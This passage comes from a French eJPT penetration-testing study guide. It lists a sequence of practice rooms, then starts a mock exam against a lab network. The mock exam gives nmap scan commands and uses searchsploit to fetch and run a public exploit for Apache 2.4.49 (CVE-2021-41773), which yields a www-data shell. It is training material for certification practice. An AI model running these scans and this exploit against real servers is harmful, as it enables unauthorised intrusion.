 1. **Débutant total** : Intro to Pentesting → Nmap Room → Metasploit Room
2. **Reconnaissance** : Vulnversity → Blue Room (THM) → Netmon
3. **Exploitation** : Pickle Rick → Blue (HTB) → Legacy → Lame
4. **Élévation de privilèges** : Linux PrivEsc → Windows PrivEsc → Bashed → Optimum
5. **Extraction d'identifiants** : Blue (HTB) → Jerry → Arctic

Cette progression vous permettra de développer méthodiquement vos compétences, en commençant par les bases et en avançant progressivement vers des techniques plus avancées, tout en restant dans le cadre des compétences requises pour l'eJPT.

## 12. Examen simulé complet

Pour vous préparer au mieux à l'eJPT, voici un examen simulé complet qui reproduit les conditions réelles de l'examen. Ce scénario implique trois machines vulnérables et met en pratique toutes les compétences que nous avons abordées jusqu'à présent.

### Scénario

Vous êtes mandaté pour effectuer un test d'intrusion sur le réseau interne d'une entreprise. Vous avez obtenu un accès VPN au réseau cible (10.10.10.0/24) et devez identifier les machines vulnérables, les exploiter, et extraire des informations sensibles.

### Machine 1 : Serveur Web (10.10.10.50)

#### Reconnaissance et énumération

```bash
# Scan initial
sudo nmap -sn 10.10.10.0/24
# Découverte de 10.10.10.50, 10.10.10.100, 10.10.10.150

# Scan détaillé de la première machine
sudo nmap -sS -sV -sC -p- -oA machine1 10.10.10.50

# Résultat du scan
# 22/tcp open  ssh     OpenSSH 7.9p1
# 80/tcp open  http    Apache httpd 2.4.49
```

**Analyse** : Le serveur web utilise Apache 2.4.49, qui est vulnérable à une faille de traversée de répertoire et d'exécution de code à distance (CVE-2021-41773).

#### Exploitation

```bash
# Recherche d'exploits
searchsploit apache 2.4.49
# Résultat : Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution

# Copie de l'exploit
searchsploit -m 50383.py

# Exécution de l'exploit
python3 50383.py http://10.10.10.50
# Résultat : Shell obtenu en tant que www-data
```
